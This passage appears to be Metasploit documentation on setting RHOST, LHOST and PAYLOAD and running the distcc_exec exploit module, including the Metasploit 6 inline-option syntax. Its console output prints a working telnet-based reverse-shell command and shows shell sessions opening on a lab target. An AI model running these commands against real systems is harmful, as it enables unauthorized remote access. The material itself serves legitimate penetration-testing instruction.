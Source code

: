 For this scenario you can manually set each of the required option values (`RHOST`, `LHOST`, and optionally `PAYLOAD`):

```msf
msf6 exploit(unix/misc/distcc_exec) > set rhost 192.168.123.133
rhost => 192.168.123.133
msf6 exploit(unix/misc/distcc_exec) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
```

The `run` command will run the module against the target, there is also an aliased `exploit` command which will perform the same action:

```msf
msf6 exploit(unix/misc/distcc_exec) > run

[+] sh -c '(sleep 4375|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo BmpMGFX6NDVlh5h0;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "BmpMGFX6NDVlh5h0\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.133:48578) at 2023-09-21 14:42:42 +0100

whoami
daemon
```

New in Metasploit 6 there is added support for running modules with options set as part of the run command:

```msf
msf6 exploit(unix/misc/distcc_exec) > run rhost=192.168.123.133 lhost=192.168.123.1 payload=cmd/unix/reverse

[+] sh -c '(sleep 4305|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QqL1Uzom6eBFilyL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QqL1Uzom6eBFilyL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.133:52314) at 2023-09-21 13:52:40 +0100

whoami
daemon
```
